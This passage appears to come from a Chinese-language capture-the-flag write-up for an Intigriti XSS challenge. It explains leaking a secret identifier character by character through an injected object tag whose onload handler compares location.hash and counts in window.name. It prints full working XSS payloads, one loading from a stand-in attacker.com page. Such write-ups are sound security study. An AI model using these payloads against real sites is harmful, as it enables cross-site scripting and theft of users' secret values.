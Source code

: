 可以看到这里`identifier="tze8f445ssb7"` 第一位是`t`，当比较字符小于`t`时，均返回`false`，当比较字符为`u`时，返回`true`，由此我们可以判定第一位为`t`。保留`t`，继续构造第二位`t?`进行比较：

[![](https://p3.ssl.qhimg.com/t018dcb45d30df45e99.png)](https://p3.ssl.qhimg.com/t018dcb45d30df45e99.png)

那么按照这个规律，构造循环进行比较，当每次返回`true`时，即可判断出当前位的值，同时还需要对前面确定的值保存，才能继续判断下一位。我的思路是通过特定的方法构造这个循环，并通过`window.neme=""`可以利用的特性，当一个中间的数据”寄存器”。

首先，为了推算`identifier`第一位，构造如下结构payload：

```
error=&lt;object data=https://baidu.com/ onload=location.hash+/0/.source&lt;identifier&amp;&amp;window.name++&gt;&lt;/object&gt;#

```

这里，当`location.hash+/0/.source&lt;identifier`即`'0'&lt;'t'`成立，然后`&amp;&amp;window.name++` ，即`window.name` +1。通过`onload`事件重复这个过程，即可在一轮比较后，通过`window.name`的值-1，按照`0-9a-z`的顺序序号，即可推算出`identifier`第一位的值。这里需要注意，对`&amp;` `+` 进行url编码，否则，在运行过程中会被截断，造成payload因不完整无法执行(`&amp;&amp; --&gt; %26%26` `++ --&gt; %2b%2b`)，还需要额外添加`~`用来检测`z`：

```
https://challenge-0421.intigriti.io/
?error=&lt;object data=https://attacker.com/poc.html
onload=location.hash+/0/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/1/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/2/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/3/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/4/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/5/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/6/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/7/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/8/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/9/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/a/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/b/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/c/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/d/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/e/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/f/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/g/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/h/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/i/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/j/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/k/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/l/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/m/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/n/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/o/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/p/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/q/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/r/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/s/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/t/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/u/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/v/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/w/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/x/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/y/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/z/.source&lt;identifier&amp;&amp;window.name++,
location.hash+/~/.source&lt;identifier&amp;&amp;window.name++&gt;&lt;/object&gt;#
```
